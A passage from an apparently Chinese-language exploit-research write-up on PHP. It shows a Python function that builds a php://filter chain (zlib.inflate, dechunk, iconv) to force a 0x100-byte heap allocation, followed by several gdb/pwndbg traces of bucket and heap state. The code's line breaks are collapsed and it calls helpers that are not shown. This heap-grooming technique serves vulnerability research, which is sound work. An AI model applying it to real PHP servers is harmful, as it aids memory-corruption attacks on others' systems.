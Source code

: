 要让PHP分配一个0x100大小的堆，buildPayload  
函数的编写可以参见以下代码：  
```
def buildPayload() -> str:    heapSize = 0x100    step1 = b"A" * heapSize    step1 = compressed_bucket(step1)    pages = (        step1    )    resource = compress(pages)    resource = base64.b64encode(resource)    resource = f"data:text/plain;base64,{resource.decode()}"    filters = [        # zlib解压缩        "zlib.inflate",        # 让php分配0x100大小的堆        "dechunk",        "convert.iconv.latin1.latin1"    ]    filters = "|".join(filters)    path = f"php://filter/read={filters}/resource={resource}"    return path
```  
  
通过调试查看堆分配情况，过程如下所示：  
  
第一次断点断在php_zlib_inflate_filter  
函数，该函数将会对输入的数据进行zlib解压缩，gdb情况如下所示。  
```
 ? 0x5555557dfae5 <_php_stream_fill_read_buffer+309>    call   qword ptr [rax]               <php_zlib_inflate_filter>        rdi: 0x7ffff527d2a0 —? 0x555555a6dd40 (php_stream_rfc2397_ops) ?— 0x0        rsi: 0x7ffff5283000 —? 0x555555a0f760 (php_zlib_inflate_ops) —? 0x5555556cc740 (php_zlib_inflate_filter) ?— endbr64        rdx: 0x7fffffffa7a0 —? 0x7ffff5262180 ?— 0x0
```  
  
第二次在php_chunked_filter  
函数处设置断点，查看输入的bucket  
结构，里面的内容为输入的0x8000长度的数据，gdb详情如下所示：  
```
pwndbg> c ? 0x5555557dfae5 <_php_stream_fill_read_buffer+309>    call   qword ptr [rax]               <php_chunked_filter>        rdi: 0x7ffff527d2a0 —? 0x555555a6dd40 (php_stream_rfc2397_ops) ?— 0x0        rsi: 0x7ffff5283050 —? 0x555555a6db00 (chunked_filter_ops) —? 0x5555557bcdc0 (php_chunked_filter) ?— endbr64        rdx: 0x7fffffffa7b0 —? 0x7ffff5262180 ?— 0x0pwndbg> pbucket 0x7ffff5262180$1 = {  next = 0x0,  prev = 0x0,  brigade = 0x7fffffffa7b0,  buf = 0x7ffff52a3000 '0' <repeats 200 times>...,  buflen = 32768,  own_buf = 1 '\001',  is_persistent = 0 '\000',  refcount = 1}
```  
  
第三次断点设置在了php_iconv_stream_filter_do_filter  
函数处，查看bucket  
内容，发现buf的堆地址没变，只有buflen  
被修改为了0x100，gdb详情如下所示：  
```
pwndbg> c ? 0x5555557dfae5 <_php_stream_fill_read_buffer+309>    call   qword ptr [rax]               <php_iconv_stream_filter_do_filter>        rdi: 0x7ffff527d2a0 —? 0x555555a6dd40 (php_stream_rfc2397_ops) ?— 0x0        rsi: 0x7ffff52830a0 —? 0x7ffff493e430 (php_iconv_stream_filter_ops) —? 0x7ffff4937d60 (php_iconv_stream_filter_do_filter) ?— endbr64        rdx: 0x7fffffffa7a0 —? 0x7ffff5262180 ?— 0x0pwndbg> pbucket 0x7ffff5262180$2 = {  next = 0x0,  prev = 0x0,  brigade = 0x7fffffffa7a0,  buf = 0x7ffff52a3000 'A' <repeats 200 times>...,  buflen = 256,  own_buf = 1 '\001',  is_persistent = 0 '\000',  refcount = 1}
```  
  
在最后一步，无法再继续执行continue  
命令，因为程序会运行结束。此时，我们需要使用next指令观察执行完php_iconv_stream_filter_do_filter  
函数后bucket的情况，gdb过程如下所示：  
```
pwndbg> ni......pwndbg> p *brig_outp.head$1 = {  next = 0x0,  prev = 0x0,  brigade = 0x7fffffffa7b0,  buf = 0x7ffff5288100 'A' <repeats 200 times>...,  buflen = 256,  own_buf = 1 '\001',  is_persistent = 0 '\000',  refcount = 1}pwndbg> php_heap$2 = {......pwndbg> p $2.free_slot[15]$3 = (zend_mm_free_slot *) 0x7ffff5288200
```  
  